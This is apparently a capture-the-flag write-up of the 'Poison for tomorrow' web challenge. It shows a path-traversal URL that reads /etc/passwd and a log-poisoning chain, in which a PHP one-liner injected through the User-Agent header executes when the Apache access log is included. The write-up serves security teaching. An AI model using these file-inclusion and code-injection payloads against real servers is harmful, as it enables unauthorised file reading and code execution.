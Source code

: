 ```yaml
---
layout: post
title: Poison for tomorrow
description: This is fine
tags: web secchallenge
permalink: /SecChall21/web/poison
hidden: 1
---
```


## Description

You did it! Everything blew up. Joe is dead, the remaining Warboys ran off. Luckily the anti-apocalypse machine is unharmed. As you walk closer to the machine you see it is counting down from 999 years. Joe programmed it to delay the end of the apocalypse as much as possible. Find a way to reprogram the machine, otherwise, the apocalypse will stay for a long time.

[https://poison-for-tomorrow.secchallenge.crysys.hu](https://poison-for-tomorrow.secchallenge.crysys.hu)

- Author: Pepe
- Difficulty: medium

## Disclaimer

**I did not managed to solve this challenge in the challenge time period, and needed a nudge from Pepe after the challenge ended to be able to solve this one.**

## Solution

After doing some initial scanning with `nmap` and `skipfish` this is what I've found.

```sh
ls -la
-rw-r--r--  1 kali kali    142 Feb 27 20:24 solve.txt

cat solve.txt
Ports open:
22 ssh
80 http
443 https

https://poison-for-tomorrow.secchallenge.crysys.hu/index.php?page=/../../../../../../../../../etc/passwd
```

Nothing to see here right? Right. So anyway, I started playing with the Countdown clock.
![image](/media/SecChall21/Web/Poison/drift_meme.png)

Needless to say, I got to nowhere with that, and didn't managed to solve the challenge.

After the challenge was over I got the hint, that I may want to look into `Log Poisoning`. About the first search with google returned the answer, [LFI to RCE](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1) vulnerability. With this knowledge it was easy to put together a python script, that did the following:

- Send a request to `countdown.html` with a PHP injected `User-Agent`, our good old PHP one-liner friend will do here too: `<?php foreach(scandir(".") as $file) echo $file."<br>"; ?>`
- View `/var/log/apache2/access.log` to see the leaked folder
- Look for the flag at `https://poison-for-tomorrow.secchallenge.crysys.hu/index.php?page=/var/www/html/very_secret_hidden_folder_N0P3/flag`

... goddammit, the challenge won here, initially.

The acquired flag is:
```
cd21{HIDDEN}
```

[&#8592; Back to SecChallenge21](/SecChall21)
